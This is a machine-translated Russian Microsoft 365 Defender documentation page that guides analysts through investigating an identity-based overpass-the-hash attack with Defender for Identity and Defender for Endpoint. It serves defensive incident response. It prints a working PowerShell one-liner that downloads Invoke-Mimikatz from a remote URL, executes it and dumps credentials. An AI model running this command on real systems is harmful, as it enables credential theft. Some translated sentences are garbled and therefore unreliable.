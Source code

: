 ```yaml
---
title: Пример атаки на основе удостоверений
description: Проанализив пример атаки на основе удостоверений.
keywords: инциденты, оповещения, расследование, корреляция, атака, компьютеры, устройства, пользователи, удостоверения, удостоверения, почтовый ящик, электронная почта, 365, Microsoft, m365, реагирование на инциденты, кибератака
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: josephd
author: JoeDavies-MSFT
localization_priority: Normal
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: e56d6d5d78101da1f6da4c14ade25e80aa5b5063
ms.sourcegitcommit: 05f40904f8278f53643efa76a907968b5c662d9a
ms.translationtype: MT
ms.contentlocale: ru-RU
ms.lasthandoff: 04/30/2021
ms.locfileid: "52114856"
---
```

# <a name="example-of-an-identity-based-attack"></a>Пример атаки на основе удостоверений

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**Область применения:**
- Microsoft 365 Defender

Microsoft Defender for Identity может помочь обнаружить вредоносные попытки компрометации удостоверений в организации. Так как Defender for Identity интегрируется с Microsoft 365 Defender, аналитики по безопасности могут иметь видимость угроз, исходяющих из Defender for Identity, таких как предполагаемые попытки повышения привилегий Netlogon.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Анализ атаки в Microsoft Defender для удостоверений

Microsoft 365 Defender позволяет аналитикам фильтровать оповещения с помощью источника обнаружения на вкладке **Оповещения** на странице инцидентов. В следующем примере источник обнаружения фильтруется в **Defender for Identity.** 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Пример фильтрации источника обнаружения для Defender для identity":::

Выбор оповещений о предполагаемой атаке **overpass-the-hash** отправляется на страницу в Microsoft Cloud App Security, которая отображает более подробные сведения. Вы всегда можете узнать больше об оповещении или атаке, выбрав дополнительные инструкции по этому типу оповещения, чтобы прочитать описание атаки, а также рекомендации по исправлению.  [](https://docs.microsoft.com/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002)
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="Пример оповещений о предполагаемой атаке overpass-the-hash"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>Исследование той же атаки в Microsoft Defender для конечной точки

Кроме того, аналитик может использовать Defender для конечной точки, чтобы узнать больше об активности на конечной точке. Выберите инцидент из очереди инцидента, а затем выберите **вкладку Оповещения.** Отсюда они также могут идентифицировать источник обнаружения. Источник обнаружения, помеченный как EDR, означает endpoint Detection and Response , который является Defender для конечной точки. Отсюда аналитик выбирает оповещение, обнаруженную EDR.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Пример обнаружения и ответа конечной точки в Defender для конечной точки"::: 

На странице оповещений отображаются различные сведения, такие как имя устройства, имя пользователя, состояние автоматического расследования и сведения об оповещении. В этой истории оповещений повествуется визуальное представление дерева процесса. Дерево процесса представляет собой иерархическое представление родительских и детских процессов, связанных с оповещением.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Пример дерева обработки оповещений в Defender для конечной точки"::: 

Каждый процесс можно расширить, чтобы просмотреть дополнительные сведения. Сведения, которые может видеть аналитик, это фактические команды, которые были введены в составе вредоносного скрипта, IP-адресов исходящие подключения и другие полезные сведения.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Пример сведений о процессе в Defender для конечной точки":::
 
Выбрав график См. в **графике,** аналитик может еще больше сверлить, чтобы определить точное время компромисса. 

Microsoft Defender для конечной точки может обнаруживать множество вредоносных файлов и скриптов. Однако из-за множества законных применений для исходящие подключения, PowerShell и командной строки некоторые действия будут считаться доброкачественными, пока не создадут вредоносный файл или действие. Поэтому использование временной шкалы помогает аналитикам ввести оповещение в контекст с окружающими действиями, чтобы определить исходный источник или время атаки, которые в противном случае не заслонятся общей файловой системой и действиями пользователей. 

Для этого аналитик начнет во время обнаружения оповещений (красным цветом) и вовремя прокрутит вниз назад, чтобы определить, когда первоначальное действие, которое привело к вредоносной активности, на самом деле началось. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Пример запуска во время обнаружения оповещений"::: 

Важно понимать и различать общие действия, такие как подключения Windows Update, Windows доверенный трафик активации программного обеспечения, другие распространенные подключения к сайтам Майкрософт, сторонние действия в Интернете, Microsoft Endpoint Configuration Manager активности и другие доброкачественные действия от подозрительной активности. Один из способов добиться этого — использовать фильтры временной шкалы. Существует множество фильтров, которые могут выделить определенные действия, отфильтровывая все, что аналитик не хочет просматривать. 

На рисунке ниже аналитик фильтруется для просмотра только сетевых событий и процессов. Это позволяет аналитику видеть сетевые подключения и процессы, связанные с событием, Блокнот установлено подключение с IP-адресом, которое мы также видели в дереве процесса. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="Пример использования Блокнот для подключения к вредоносным исходящие"::: 

В этом конкретном событии Блокнот для подключения к вредоносным исходящие. Однако часто злоумышленники просто iexplorer.exe для создания подключений для загрузки вредоносной полезной нагрузки, так как обычно iexplorer.exe обычно считаются обычными действиями веб-браузера.

Другим элементом, который следует искать в временной шкале, является использование PowerShell для исходящие подключения. Аналитик будет искать успешные подключения PowerShell с командами, такими как исходящие подключения к веб-сайту, на который размещен `IEX (New-Object Net.Webclient)` вредоносный файл. 

В следующем примере PowerShell использовалась для скачивания и выполнения Mimikatz с веб-сайта:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
Аналитик может быстро искать ключевые слова, введя ключевое слово в панели поиска, чтобы отображать только события, созданные с помощью PowerShell. 

## <a name="next-step"></a>Следующий шаг

См. [путь к расследованию фишинга.](first-incident-path-phishing.md)

## <a name="see-also"></a>См. также

- [Обзор инцидентов](incidents-overview.md)
- [Управление инцидентами](manage-incidents.md)
- [Анализ инцидентов](investigate-incidents.md)
